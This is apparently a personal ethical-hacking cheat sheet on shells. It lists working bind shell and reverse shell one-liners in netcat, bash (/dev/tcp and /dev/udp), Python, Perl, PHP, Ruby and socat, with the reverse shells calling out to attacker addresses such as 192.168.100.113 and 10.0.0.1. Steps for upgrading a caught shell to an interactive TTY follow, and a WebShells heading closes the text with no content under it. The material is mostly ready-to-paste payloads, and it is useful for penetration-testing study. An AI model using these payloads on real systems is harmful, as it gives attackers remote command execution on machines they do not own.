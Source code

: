 # Shells

[TOC]

## Bind Shell

Runs a server process on the target (open a port) that waits for connections from the attacker machine

![](D:\SEGURANCA\01_Apontamentos\Ethical_Hacking\3_Exploitation\img\netcat_bind_shell.jpg)

#### Netcat

```bash
#Setup a Netcat listener on the target
nc -lvnp <listen-port> –e /bin/bash

#Connect to target
nc <attacker_ip> <listen-port>
```

#### Python

```python
#Setup a listener on the target
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```

#### Python

```python
#Setup a listener on the target
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```

#### Perl

```perl
#Setup a listener on the target
perl -e 'use Socket;$p=2222;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);close C){open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");};'
```

#### PHP

```php
#Setup a listener on the target
php -r '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",2222);socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);socket_write($cl,$m,strlen($m));}}'
```

#### Ruby

```ruby
#Setup a listener on the target
ruby -rsocket -e 'f=TCPServer.new(2222);s=f.accept;exec sprintf("/bin/bash -i <&%d >&%d 2>&%d",s,s,s)'
```


## Reverse Shell

Open a port on attacker machine, connect back to it with the target (could help evade firewalls)

![](D:\SEGURANCA\01_Apontamentos\Ethical_Hacking\3_Exploitation\img\netcat_reverse_shell.jpg)

[Reverse Shell - Cheat Sheet](https://github.com/flakpaket/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

#### Netcat

```bash
#Setup a Netcat listener on the attacker box
nc -lvnp <listen-port>

#Target host connect to attacker box (Linux)
nc <attacker_ip> <listen-port> –e /bin/bash

#Target host connect to attacker box (Windows)
nc <attacker_ip> <listen-port> –e cmd.exe
```

#### Bash TCP

```bash
#Initiate a reverse shell from the target
bash -i >& /dev/tcp/192.168.100.113/4444 0>&1
```

#### Bash UDP

```bash
#Victim:
bash -i >& /dev/udp/127.0.0.1/4242 0>&1

#Listener:
nc -u -lvp 4242
```

#### Python

```python
#Initiate a reverse shell from the target - IPv4
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

#Initiate a reverse shell from the target - IPv6
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");' 
```

#### Perl

```perl
#Initiate a reverse shell from the target
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### PHP

```php
#Initiate a reverse shell from the target
php -r ‘$sock=fsockopen(“192.168.100.113”,4444);exec(“/bin/sh -i <&3 >&3 2>&3”);’
```



## Upgrade to Interactive Shell (Spawning)

#### Method 1: Python pty module

+ No tab-completion or history and SIGINT (Ctrl-C) will still close Netcat

```python
bash -i  
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

#### Method 2: Using socat

```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

#### Method 3: Upgrading from netcat

```bash
#In reverse shell
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

#In Attacker
echo $TERM   # get TERM type (usually "xterm-256color")
stty -a      # get the size of the current TTY
stty raw -echo
fg

#In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```



## WebShells

